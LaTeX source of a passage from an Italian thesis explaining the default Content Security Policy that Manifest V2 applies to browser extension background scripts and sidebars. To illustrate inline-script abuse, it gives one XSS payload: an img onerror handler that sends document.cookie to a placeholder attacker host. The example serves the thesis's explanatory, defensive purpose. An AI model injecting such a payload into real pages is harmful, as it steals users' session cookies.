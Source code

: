 \documentclass{sapthesis}
\newcommand{\code}[1]{\texttt{#1}}
\newcommand{\JS}{Javascript}
\newcommand{\manifest}{\code{manifest.json}}
\begin{document}
            \subsubsection{I background script e la sidebar}
            \label{sec:difese-background-sidebar}
                Sugli script di background e le UI viene applicata una CSP di default modificabile soltanto dal
                \manifest dell'estensione, i dettagli della policy differiscono tra Manifest V2 e V3. Nella
                mia ricerca ho trattato solo la versione 2 del manifest pertanto tratterò solo le specifiche
                di quest'ultima.
                La CSP di background è piu severa rispetto ai content script volta a restringere le origini
                da cui caricare codice \JS e pratiche di programmazione potenzialmente insicure, la specifica
                standard del manifest V2 è:
                \begin{lstlisting}
                    "script-src 'self'; object-src 'self';"
                \end{lstlisting}
                Nel pratico la riga precedente si traduce in quattro restrizioni:
                \begin{itemize}
                    \item Risorse \code{<script>} e \code{<object>} possono essere caricate solo da origini
                            locali all'estensione (ovvero file collocati nella stessa cartella). Tutte le
                            richieste che cercheranno di includere codice nella pagina proveniente da origini
                            considerate insicure verranno bloccate silenziosamente.
    
                    \item Non è concesso evaluare stringhe come codice \JS. L'uso di funzioni come
                            \code{eval()}, \code{setTimeout()}, \code{setInterval()} e \code{Function()}
                            per eseguire il contenuto di stringhe come codice \JS viene bloccato silenziosamente.
                    
                    \item Non è consentito eseguire codice \JS inline. Con codice inline si intende codice
                            \JS hard-coded in elementi html, come quello contenuto nel tag \code{<script>}
                            quando non viene utilizzato per includere file script. Un esempio è l'abuso degli
                            event listener dichiarabili direttamente sui tag html per eseguire \JS malevolo:\\
                            \code{<img src="invalid" onerror=fetch("http://attacker/?" + document.cookie) >}        
    
                    \item {} Non è consentito eseguire codice WebAssembly.
                
                \end{itemize}
                Questa politica è applicata su ogni estensione che non abbia esplicitamente modificato la voce
                \code{"content\_security\_policy"} del suo \manifest e non è modificabile programmaticamente.
   
\end{document}
